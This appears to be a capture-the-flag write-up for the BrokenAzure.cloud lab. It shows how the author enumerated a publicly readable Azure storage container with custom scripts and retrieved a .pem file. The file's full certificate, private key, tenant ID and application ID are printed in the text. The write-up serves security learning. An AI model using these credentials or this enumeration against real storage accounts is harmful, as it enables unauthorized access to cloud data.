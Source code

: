 # BrokenAzure.cloud CTF Challenge Write-Up

This repository contains a detailed write-up for a challenge found on [BrokenAzure.cloud](https://www.brokenazure.cloud/), focusing on the exploitation of Developer Tools and the Security Pane to enumerate and extract sensitive information from Azure storage containers.

## Challenge Overview

The company named SuperCompany B.V. has been working with IT systems for a while now and have an IT team of a whoppin' 2 people. Because the CEO of the company has heard that 'Cloud' is the new way of working, the CEO has asked the IT team to migrate all IT systems to the Azure cloud platform. Sadly, management does not allow the IT team to take courses or trainings to learn more about Azure cloud and so they have to learn as-they-go
<br>
## Scripts
These scripts are found in my github folder, Tools
```bash
https://github.com/Snoozekinezzar/Tools.git
```
<br>

# Challenge 1
<br>

## Tools Utilized

**enumerate_containers.py** : A script designed for enumerating accessible storage containers within a given Azure Storage account.
**list_blobs_info.py** : A script aimed at listing details about blobs within a specific container, including file names, sizes, and modification timestamps.

## Developer tools

By refreshing the page, it is shown in the security pane, that the Azure account name is **supercompanystorage**
```bash
https://supercompanystorage.blob.core.windows.net
```

## Procedure and Discoveries

### Enumerating Storage Containers

The first step involved using the `enumerate_containers.py` script to enumerate storage containers within the `supercompanystorage` account, as showcased below:

```bash
┌──(brokenazure㉿ctf)-[~/Github/Tools]
└─$ ./enumerate_containers.py
Enter the Azure Storage account name: supercompanystorage
Container found: storagecontainer
Found Containers: ['storagecontainer']
```
### Output:
Upon identifying the container name (storagecontainer), the `list_blobs_info.py` script was executed to enumerate blobs within this container. This process revealed the names, sizes, and last modified dates of the blobs:

```bash
┌──(brokenazure㉿ctf)-[~/Github/Tools]
└─$ ./list_blobs_info.py supercompanystorage storagecontainer

List of blobs:
- Name: Employee23187.ovpn, Size: 2921 bytes, Last Modified: Mon, 08 Aug 2022 11:09:12 GMT
- Name: SECURA{C3RT1F1C3T3}.pem, Size: 3002 bytes, Last Modified: Mon, 08 Aug 2022 11:08:05 GMT
- Name: logo.png, Size: 10763 bytes, Last Modified: Mon, 08 Aug 2022 11:08:05 GMT
```

## Uncovered Flags
This investigative effort led to the identification of several files, one of which contained a flag:

**1st Flag: SECURA{C3RT1F1C3T3}**
<br>
<br>
This flag was located within the file named SECURA{C3RT1F1C3T3}.pem, marking a successful extraction of sensitive data.

<br>

# Challenge 2
<br>

## Tools Utilized

**blob_activator.py**: A script for reading individual blobs within a given Azure Storage account.

## Accessing blobs
The next step involved using the `blob_activator.py` script to access the information inside the blobs I've previously listed using my `list_blobs_info.py`, as showcased below:

```bash
┌──(brokenazure㉿ctf)-[~/Github/Tools]
└─$ ./blob_activator.py
Enter the storage account name: supercompanystorage
Enter the container name: storagecontainer
Enter the blob name: SECURA{C3RT1F1C3T3}.pem
```

### Output:
Using the `blob_activator.py`, I was able to access the Privacy Enhanced Mail file (.pem), *SECURA{C3RT1F1C3T3}.pem*, which contained **certificate**, **private key**, **tenant id** and **application id**.

```bash
-----BEGIN CERTIFICATE-----
MIIDHzCCAgegAwIBAgIUaEcJmhc/7DjCPPyZLV0fWO1gcz8wDQYJKoZIhvcNAQEL
BQAwHzELMAkGA1UEBhMCTkwxEDAOBgNVBAoMB1NlY3VyYSAwHhcNMjIwMzIyMTQz
NjU3WhcNMzIwMzE5MTQzNjU3WjAfMQswCQYDVQQGEwJOTDEQMA4GA1UECgwHU2Vj
dXJhIDCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMzepUaYNoTsuWSk
Zb9pgbIJrMEAp9oJuIGNlMgOxMcTHVix6Scb9Q3odWwBE39BhImc+cy8y3OpeuRq
ADo98RIlBv8HkVYdOubR84NZvD/ugZfWJMrNCYFzOrRLeY53OGGgIxVJessyem5l
q/16WzH0I3oRY65vOiEdNYZs0ZGOObtIffxmasz/+UwHWVeyxo8K5SBYAgGxhRPy
tPhQW3s2whpkgXCLIScwrkrHsJvWGtKHqwpgF6vKXdmqGmJcZljLVNeD673SXU0a
uCchxAG4nbQLKOccKvH1A677dSWXOtJ/8S6nJ5S/mdFy9uSSr1Fw85wAtXfb9MmB
UWdFjakCAwEAAaNTMFEwHQYDVR0OBBYEFA/amktAYKEtTAKc7DqKV9K7Cs2EMB8G
A1UdIwQYMBaAFA/amktAYKEtTAKc7DqKV9K7Cs2EMA8GA1UdEwEB/wQFMAMBAf8w
DQYJKoZIhvcNAQELBQADggEBAK5JzdK7q7eYegr93EA+mzm53+qCqdQtdzFOAEzA
dGpQcV9LWKHxbiVMl8/QrGhlD5LNsLmNsrtWKbGAcHMPDPdwWCjsF7YALlou9Js9
lCRwyHaUTIss6YtnRVrcQSsclVzCG5yJoX8PHskGtvzg8Bs1xsPM5H9qXvjUCQqU
9wYNe6QaCbpznNbewoqijLWkwDiHbmuxwBoTp8fFxjtFnBXYsf4oTPKFeBqIKq07
SP9OM5Qp0jQLt54H1NcTNe+6Vw2/11ZH6NOiLgHBIK+50sCiYeh8d35t+PLrH64k
6CXu0gLU3UZeTR65rVpScRGLnS+fLCWgc0MzyuolbBLVYfw=
-----END CERTIFICATE-----
-----BEGIN PRIVATE KEY-----
MIIEvwIBADANBgkqhkiG9w0BAQEFAASCBKkwggSlAgEAAoIBAQDM3qVGmDaE7Llk
pGW/aYGyCazBAKfaCbiBjZTIDsTHEx1YseknG/UN6HVsARN/QYSJnPnMvMtzqXrk
agA6PfESJQb/B5FWHTrm0fODWbw/7oGX1iTKzQmBczq0S3mOdzhhoCMVSXrLMnpu
Zav9elsx9CN6EWOubzohHTWGbNGRjjm7SH38ZmrM//lMB1lXssaPCuUgWAIBsYUT
8rT4UFt7NsIaZIFwiyEnMK5Kx7Cb1hrSh6sKYBeryl3ZqhpiXGZYy1TXg+u90l1N
GrgnIcQBuJ20CyjnHCrx9QOu+3UllzrSf/EupyeUv5nRcvbkkq9RcPOcALV32/TJ
gVFnRY2pAgMBAAECggEBALBvetVOV32oxY1YS8xKWAj1bhMVtnj/8CeawCx/E5cC
7j4pkks9N5GPxjiKwLjSuwss5rEdUvY8WnsGk0WVfN0MiHbwlIkeSVDqNZbEnGxO
wsr6ANurM2mJzF/jtD8ui58AI9a8XoVK5sfWxgVZ79oYkMka2scqQVytZCBt7Ro1
YSrjxI0sMmVpC29tjzkraJrc9xlqzr/ioKR94d5PBbbicRzwuN5f2CcXFZSbAULM
CDHG6raajvlL1aSNQG8Lkouudw1E+1mMM//KPpAjQvkFajt+ugCqmV3fyO8td1W7
ndsDMz6TcRc5syQlsFtZ28R1ugR5AOt/Q2NOG51zZtECgYEA5T8E+85keSjTmkQ4
SUYuFEWFTUBoYsZ644fonntKJz+uMUilf4PP5tYm85Idereq/Wz2MR7YFo+Dhe/C
lUGfMOqp6jGbRO9gwrAYifc9psR86dlPsvwbg1+MkrreqjM+dQYE3BzVBPeIHIaz
OR0S7oJRZiQKzxX6dSPN6yHMQYUCgYEA5MdaSOvS2yssFOWPSajZdM3uJDwvB8yI
A0zTzq/t0xGp4pG4hbbA0DsrlwbW+DFjNmhTUjnGi2xNFuBs2zpZAfZcS70JRi4G
3NSGRbUg2x7xJd+eDtHLfcqVAWS21Qv6cNnjWkIi+zD1mh8kuNpz6hd3MH6lZfuz
FdFIPBGQAtUCgYEAjnnDRCh7A14fXQJHJSsr2kd22JNODQ2kNKM0LMMdTBVk0pZ+
3Shz3th77ueB0NIzwDunKtIrpKHfMS/Y9GCLaqB9p+LayFYqAfXl2mFB/NKje8cm
pGvRQa3xtQPU/VzJ1Xs/K/nzXpnlCy2gV7+9E2UE6AFAgoH7XjA5e4hO5O0CgYEA
qrrK+dhjhwP05bNa91F21uBHc+sl/d/5MN1Iw9ou1XE9IsQ0vDTiN4OwyAhmrNnO
fG/mnlpXfPzZmtTo58HnYruDrVHpdeIrZOmFOsgtONkihW0X+189SSbBhESw3NUP
lOBF9rmceXDUGKxdL0Z3cp8IZ7xbmnv37bQ8//brTfECgYB38BuP+2JifsqhCO4V
QwqzeI6QhETFZNpwBMLua/J6B/beDYNQNylWNmUhMZ5UrL+ZE+q83nHb6OuQvwwm
2JfOQqPWC33oDLgfSCJM4kZIt2K3AIozYmoSbRaS1g5WEL/2Z39/Kg+qjz1cX1UG
h3A+1OWJej8nKg9XTz25Ra1qzg==
-----END PRIVATE KEY-----
-----BEGIN AZURE_DETAILS-----
Tenant id: 4452edfd-a89d-43aa-8b46-a314c219cc50
App-id: b2bfb506-aead-40d8-9e93-6f3e5d752826
-----END AZURE_DETAILS-----
```

## Conclusion
The challenge underscored the critical need for securing Azure storage accounts and containers against unauthorized access. The successful enumeration and extraction of data from inadequately secured containers highlighted potential vulnerabilities, reinforcing the importance of ethical hacking practices and proper authorization prior to conducting vulnerability assessments.
